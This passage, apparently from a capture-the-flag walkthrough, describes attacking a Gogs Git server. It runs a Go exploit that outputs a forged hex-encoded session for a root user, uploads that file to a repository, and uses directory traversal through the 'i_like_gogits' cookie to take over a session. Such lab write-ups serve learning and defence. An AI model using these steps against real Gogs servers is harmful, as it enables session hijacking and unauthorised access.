 ![Gogs creating repository](ghoul_gogs-2.png)

Execute Go exploit code to generate a cookie:
```
go run ghoul_gogs_exploit.go

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
```

Upload the created _data_ file into the repository:
```
Upload file --> Drop files here or click to upload --> Commit Changes
```

The file gets uploaded and the vulnerability allows us to do a directory traversal to this file.
The newly created cookie can be modified with the developer tools in any browser and by modifying the value of the _"i_like_gogits"_ cookie, directories can be changed.
